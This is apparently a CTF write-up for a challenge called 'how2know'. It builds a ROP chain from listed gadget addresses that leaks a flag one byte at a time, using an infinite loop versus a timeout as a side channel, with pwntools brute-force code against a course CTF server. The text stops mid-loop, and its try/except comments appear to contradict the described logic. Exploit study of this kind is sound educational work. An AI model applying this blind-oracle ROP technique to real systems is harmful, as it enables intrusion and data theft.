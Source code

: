 #### Exploit - `ROP` + [how2know](/jHf3sAfOTveOIguRGXXmwQ)
1. Find `flag` address → <font color="FF0000">`0x4de2e0`</font>
    ```bash
    $ objdump -d -M Intel chal | grep "<flag>"
      401cfe:       48 8d 35 db c5 0d 00    lea    0xdc5db(%rip),%rsi        # 4de2e0 <flag>
    ```
2. Create `ROP` chain
    ```bash!
    $ ROPgadget --binary chal --multibr > rop_gadget
    $ vim rop_gadget
    ```
    ```python!
    pop_r14_ret = 0x402797
    mov_eax_dword_ptr_rax_ret = 0x4022ee
    cmp_al_r14b_ret = 0x438c15
    jne_0x426148_ret = 0x426159

    pop_rbx_ret = 0x401fa2
    jmp_rbx = 0x4176fd
    infinite_loop = p64(pop_rbx_ret) + p64(jmp_rbx) + p64(jmp_rbx)

    ROP = flat(
                pop_rax_ret, flag_addr+idx,
                mov_eax_dword_ptr_rax_ret,
                pop_r14_ret, guess,
                cmp_al_r14b_ret, 
                jne_0x426148_ret,
    )
    ROP += infinite_loop
    ```
    * Move the flag address to `$rax`, and move the flag string to `$eax` next
    * Then put our guess single char to `$r14`
    * Compare `$al` and `$r14b`
    * If correct, go into infinity loop, otherwise, jump to `0x426148`
3. **How to know the single char in pwntool side?**
When the comparison is correct, it'll access into infinity loop and `recv` function will receive something then break while loop and close the connection, otherwise, it'll jump to `0x426148` and trigger timeout exception.
    ```python!
    r.sendafter(b'rop\n',b'a'*0x28 + ROP)
    try :
        # If compare not correct, guess++ and access to infinity loop
        r.recv(timeout=0.5)
        break
    except:
        # If compare correct, pwntool will break out
        guess += 1
    r.close()
    ```
4. Repeat
    ```python!
    flag = ''
    idx = 0
    while idx < 48:
        guess = 0x20
        while guess < 0x80 :
            r = remote('edu-ctf.zoolab.org', 10012)
            {create ROP}
            r.sendafter(b'rop\n',b'a'*0x28 + ROP)
            try :